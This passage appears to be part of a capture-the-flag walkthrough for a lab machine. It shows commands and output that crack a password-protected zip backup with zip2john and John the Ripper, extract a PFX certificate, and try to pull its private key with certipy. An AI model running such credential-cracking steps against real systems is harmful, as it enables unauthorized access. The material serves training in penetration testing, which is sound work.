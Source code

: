 Converted the protected file into a hash and cracked it with JTR.

```bash
zip2john winrm_backup.zip > zip.hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP

john zip.hash -w=/usr/share/wordlists/rockyou.txt
winrm_backup.zip/legacyy_dev_auth.pfx:<REDACTED>
```

This time we could decompress it without any issues.

```bash
7z e winrm_backup.zip
Enter password (will not be echoed):
Everything is Ok

Size:       2555
Compressed: 2611

ls -l              
total 16
-rwxr-xr-x 1 kali kali 2555 Oct 25  2021 legacyy_dev_auth.pfx
-rw-r--r-- 1 kali kali 2611 May 10 20:22 winrm_backup.zip
-rw-r--r-- 1 kali kali 4962 May 10 20:26 zip.hash
```

Trying to extract the private key from the PFX certificate returns another ‘invalid password’ XD.

```bash
sudo certipy-ad cert -pfx legacyy_dev_auth.pfx -nocert -out dusk.key
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] Got error: Invalid password or PKCS12 data
[-] Use -debug to print a stacktrace
```

<img src="/assets/img/timelapse/Untitled 2.png" alt="Untitled 2.png" style="width:800px;">
